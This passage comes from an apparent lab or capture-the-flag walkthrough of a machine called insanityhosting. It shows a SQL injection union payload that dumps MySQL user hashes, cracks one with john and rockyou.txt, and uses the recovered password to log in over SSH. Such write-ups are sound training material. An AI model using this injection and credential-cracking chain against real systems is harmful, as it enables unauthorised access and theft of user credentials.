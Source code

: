 Dumping this field for all users in `mysql`:

`test" union all select user,authentication_string,3,4 FROM mysql.user #`

![32](screenshots/32.png)

I get this hash:

`elliot:*5A5749F309CAC33B27BA94EE02168FA3C3E7A3E9`

This hash is crackable with `rockyou.txt`:

```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt elliot.hash
Using default input encoding: UTF-8
Loaded 1 password hash (mysql-sha1, MySQL 4.1+ [SHA1 256/256 AVX2 8x])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
elliot123        (?)
1g 0:00:00:00 DONE (2023-03-20 14:04) 50.00g/s 6619Kp/s 6619Kc/s 6619KC/s elmo19..ellie04
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Since elliot is on the target, let's see if I can login through ssh. It works:

```bash
$ ssh elliot@192.168.171.124
The authenticity of host '192.168.171.124 (192.168.171.124)' can't be established.
ED25519 key fingerprint is SHA256:eCrkU/pjlo8f7sNUU6/DASra4biW9OuKmWxQptyXBdw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.171.124' (ED25519) to the list of known hosts.
elliot@192.168.171.124's password:
[elliot@insanityhosting ~]$ whoami
elliot
[elliot@insanityhosting ~]$ id
uid=1003(elliot) gid=1003(elliot) groups=1003(elliot)
```

Collect `local.txt`:
